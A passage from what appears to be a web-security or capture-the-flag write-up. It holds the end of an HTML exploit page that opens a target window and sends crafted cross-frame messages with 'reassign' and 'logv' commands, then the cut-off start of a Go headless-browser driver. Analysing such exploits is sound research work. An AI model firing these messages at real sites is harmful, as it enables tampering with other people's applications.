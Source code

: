```html
      const win = window.open(`${url}${encodeURIComponent(base)}`, "test");

      setTimeout(() => {
        sendToAllFrames(win, {
          credentials: { username: "test", password: "test" },
          cmd: "reassign",
          message: { a: "z", b: "x" },
        });
        sendToAllFrames(win, {
          credentials: { username: "test", password: "test" },
          cmd: "reassign",
          message: { a: "z+", b: "0" },
        });

        sendToAllFrames(win, {
          credentials: { username: "test", password: "test" },
          cmd: "reassign",
          message: { a: "s", b: "u" },
        });

        sendToAllFrames(win, {
          credentials: { username: "test", password: "test" },
          cmd: "logv",
          message: "z",
        });
      }, 1000);
    </script>
  </body>
</html>
```

The full code of the go program:
```go
package main

import (
	"context"
	"flag"
	"fmt"
	"log"
	"time"

	"github.com/chromedp/cdproto/dom"
	"github.com/chromedp/chromedp"
)

func main() {
	var url string
	js := ""

	flag.StringVar(&url, "url", "", "")
	flag.StringVar(&js, "js", "", "")

	flag.Parse()

	ctx, cancel := chromedp.NewContext(
		context.Background(),
	)
	defer cancel()

	var consoleDom string
	var jsOut interface{}

	tasks := getDom(url, &consoleDom)
```